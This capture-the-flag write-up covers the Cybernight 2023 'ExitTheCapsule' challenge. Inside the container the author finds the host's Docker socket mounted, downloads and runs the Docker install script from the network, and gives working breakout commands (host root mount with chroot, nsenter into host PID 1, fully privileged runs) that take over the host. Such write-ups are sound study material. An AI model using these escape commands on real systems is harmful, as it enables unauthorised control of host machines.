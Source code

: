 ```yaml
---
title: "ExitTheCapsule"
subtitle: "Cybernight 2023 - Exit The Capsule"
date: 2023-11-25T16:20:18+01:00
draft: false
tags: ['System']
categories:
  - 'Writeups'
  - 'Cybernight 2023'
---
```


## Category

> System

## Description

> Arriverez-vous à vous échapper du conteneur pour trouver le flag ?

## Link

*Access to a Docker through Web SSH*

## Difficulty

**EASY** - 50 points

- Author: **Sysdream**
---

![img.png](img.png)

## Write up

*NB: I am writing this WU after the CTF was closed, and therefore, and no more access to machines.*

### What's a sock ?

I already did this kind of Docker Escape/Breakout before, using this [Hacktricks book](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation).

This time, running all the command and tests it recommends, without thinking a little, didn't work.

The very first entry point, was to look for **mounted points**, using `df` or `mount -l` for example, to recover access from host.

{{< admonition info "ChatGPT explanation ('cause i'm dumb)" false >}}
In Linux, a mount point is a directory where an additional file system is attached, integrating it into the overall file system hierarchy. In the context of containers, mounting points are locations inside the container's file system where external resources, such as volumes or host directories, are attached, enabling data sharing between the container and the host. This facilitates data persistence and sharing between the container and its host environmen{{</ admonition >}}

I cannot share it or describe all of them here, but I know that one of the mounted point was suspect. There was a ``/run/docker.sock`` mounted on a `tmpfs` filesystem, with write and read permissions.

In other words: **we had access to the docker socket of the host**.

{{< admonition info "ChatGPT explanation ('cause i'm still dumb)" >}}
The docker.sock file is a Unix socket that allows communication between the Docker daemon and Docker client or other Docker-related tools. 
{{</ admonition >}}

I was then looking to find how to exploit it, using docker command.

### Docker to escape Docker

First step was to install docker inside the container (🤯) using these steps:
```bash
wget https://get.docker.com -O install.sh
chmod +x install.sh
./install.sh
```

Now that we have docker, I was able to use [this trick](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#mounted-docker-socket-escape) from the book above:

```bash
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:16.04 chroot /host/ bash

# Get full access to the host via ns pid and nsenter cli
docker run -it --rm --pid=host --privileged ubuntu bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

# Get full privs in container without --privileged
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash
```

And then, we magically were controlling the host!

The Last step was to find the flag, using this command, for example:

```bash
# Find all the files that contains 'flag' from the root / and do not output errors (2)
find / -name "*flag*" 2>/dev/null
```

Lots of results, but a ``/var/flag.txt`` kept my attention.

{{< admonition type=success title="Flag" open=false >}}
:triangular_flag_on_post: `MALICE{I Didn't Save The Flag Lol}`
{{< /admonition >}}
